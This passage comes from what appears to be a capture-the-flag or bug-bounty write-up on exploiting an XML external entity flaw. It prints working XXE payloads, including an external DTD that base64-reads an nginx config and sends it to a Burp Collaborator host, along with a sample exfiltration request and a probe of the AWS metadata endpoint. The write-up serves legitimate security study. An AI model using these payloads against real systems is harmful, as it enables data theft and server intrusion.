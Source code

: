 ```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "https://dct3rq1rn24apf28qeowjcmwpnvmjb.burpcollaborator.net/?">
    %xxe;
]>
<list></list>
```

Of course, in no circumstance did the page actually render the XML but this was not the point of this challenge. Now that we established outbound connectivity, we had to determine how to exfiltrate file content. After much trial and error we determined that the following payload could be used to exfiltrate files and local HTTP requests. First, we wrote an updated `files.xml` which references an external DTD. This is required to create more complex `ENTITY` mappings. So our `files.xml` now looks like this:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://h1-sd2gah.s3.eu-west-2.amazonaws.com/evil.dtd"> %xxe;]>
<list></list>
```

We also upload the referenced `evil.dtd` to our S3 bucket:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/nginx/sites-enabled/default">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://4din7yig3rkad847vsi5517v7mdc11.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

We can explain this a little bit. We define an entity `%file` containing the base 64-encoded contents of the file referenced in the `resource` parameter to the PHP filter. Without base64-encoding, this local file include will fail because it expects that the resulting entity contains valid DTD syntax. Then, the `%eval` entity is declared as an external `http` request to our burp collaborator endpoint. The `%eval` declaration will evaluate the first entity, and then the `%evaluate` declaration will evaluate the final payload.

This will result in a request to Burp Collaborator as follows:

```http
GET /?x=IyMKIyBZb3(long base64 string) HTTP/1.0
Host: 4din7yig3rkad847vsi5517v7mdc11.burpcollaborator.net
Connection: close
```

By decoding the contents of the `x` parameter, we can get the content of local files or local http endpoints!

Initially we thought the next attack vector was to try to access the AWS IMDSv1 endpoint located at `169.254.169.254` and available only from the local machine; however, we only had access to limited metadata and not enough that we could make AWS API requests or access the local machine further (for example through the SSM functionality to perform RCE).
